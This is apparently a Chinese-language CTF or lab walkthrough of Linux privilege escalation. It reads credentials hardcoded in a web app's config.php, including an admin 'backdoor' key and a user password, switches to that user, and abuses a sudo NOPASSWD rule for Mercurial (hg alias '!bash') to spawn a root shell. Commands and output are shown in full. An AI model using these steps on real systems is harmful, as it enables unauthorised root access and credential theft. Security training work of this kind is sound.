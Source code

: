# 权限提升

## 拿到一个web服务访问权限以后，首先要考虑到查看web项目的配置文件

```
pencek@Login:/var/www/html/vote$ cat config.php 
<?php
// 隐藏信息配置
define('SECRET_INFO', 'pencek:d032fc2b8b');
define('REQUIRED_VOTES', 1000);  // 需要达到1000票才显示信息
define('SALT', 'your_random_salt_value_here');
define('todd','1213562e5cf594899d1348');

// 投票选项
$vote_options = [
    1 => '项目A: 未来城市设计',
    2 => '项目B: 太空探索计划',
    3 => '项目C: 海洋生态恢复'
];

// 安全配置
define('MAX_VOTES_PER_IP', 10);  // 每个IP最多投票次数
define('IP_LOG_DIR', __DIR__ . '/ip_logs');  // IP日志目录
define('ADMIN_KEY', 'secret_backdoor_key');  // 后门密钥

// 创建IP日志目录
if (!file_exists(IP_LOG_DIR)) {
    mkdir(IP_LOG_DIR, 0755, true);
}
?>
```

找到了todd的账号密码

```
pencek@Login:/var/www/html/vote$ su - todd
Password: 
todd@Login:~$ id
uid=1001(todd) gid=1001(todd) groups=1001(todd)
```

提权：用户 todd 可以在本机上 无密码 (NOPASSWD) 执行 /usr/bin/hg，而且权限是 (ALL)，也就是可以以 root 的身份运行。hg 是 版本控制工具 (类似 Git)，它支持配置别名 (alias)，而且别名可以绑定到 外部命令。
--config alias.foo='!bash'：定义了一个临时的 alias 命令 foo，执行时跑 /bin/bash。
sudo hg ...：因为是 sudo 执行，所以这个 bash 就是 root 权限的。
foo：调用 alias，触发 bash。

```
todd@Login:~$ sudo -l
Matching Defaults entries for todd on Login:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User todd may run the following commands on Login:
    (ALL) NOPASSWD: /usr/bin/hg
todd@Login:~$ sudo hg --config alias.foo='!bash' foo
root@Login:/home/todd# id
uid=0(root) gid=0(root) groups=0(root)
```

